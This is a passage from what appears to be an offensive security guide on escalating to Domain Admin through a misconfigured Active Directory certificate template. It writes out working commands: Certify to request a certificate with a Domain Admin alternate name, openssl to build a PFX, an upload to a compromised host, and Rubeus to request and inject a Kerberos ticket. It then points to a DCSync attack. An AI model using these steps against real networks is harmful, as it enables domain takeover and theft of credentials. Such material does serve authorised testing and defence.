 _Note: If a Domain Admin is in a Protected Users group, the exploit may not work as intended. Check before choosing a DA to target._

Request the DA’s Account Certificate with Certify

```
.\Certify.exe request /template:<Template Name> /quiet /ca:"<CA Name>" /domain:<domain.com> /path:CN=Configuration,DC=<domain>,DC=com /altname:<Domain Admin AltName> /machine
```

This should return a valid certificate for the associated DA account.

The exported `cert.pem` and `cert.key` files must be consolidated into a single `cert.pem` file, with one gap of whitespace between the `END RSA PRIVATE KEY` and the `BEGIN CERTIFICATE`.

_Example of `cert.pem`:_

```
-----BEGIN RSA PRIVATE KEY-----
BIIEogIBAAk15x0ID[...]
[...]
[...]
-----END RSA PRIVATE KEY-----

-----BEGIN CERTIFICATE-----
BIIEogIBOmgAwIbSe[...]
[...]
[...]
-----END CERTIFICATE-----
```

\#Utilize `openssl` to Convert to PKCS #12 Format

The `openssl` command can be utilized to convert the certificate file into PKCS #12 format (you may be required to enter an export password, which can be anything you like).

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Once the `cert.pfx` file has been exported, upload it to the compromised host (this can be done in a variety of ways, such as with Powershell, SMB, `certutil.exe`, Cobalt Strike’s upload functionality, etc.)

After the `cert.pfx` file has been uploaded to the compromised host, [Rubeus](https://github.com/GhostPack/Rubeus) can be used to request a Kerberos TGT for the DA account which will then be imported into memory.

```
.\Rubeus.exe asktht /user:<Domain Admin AltName> /domain:<domain.com> /dc:<Domain Controller IP or Hostname> /certificate:<Local Machine Path to cert.pfx> /nowrap /ptt
```

This should result in a successfully imported ticket, which then enables an attacker to perform various malicious acitivities under DA user context, such as performing a DCSync attack.

#### **No PAC**
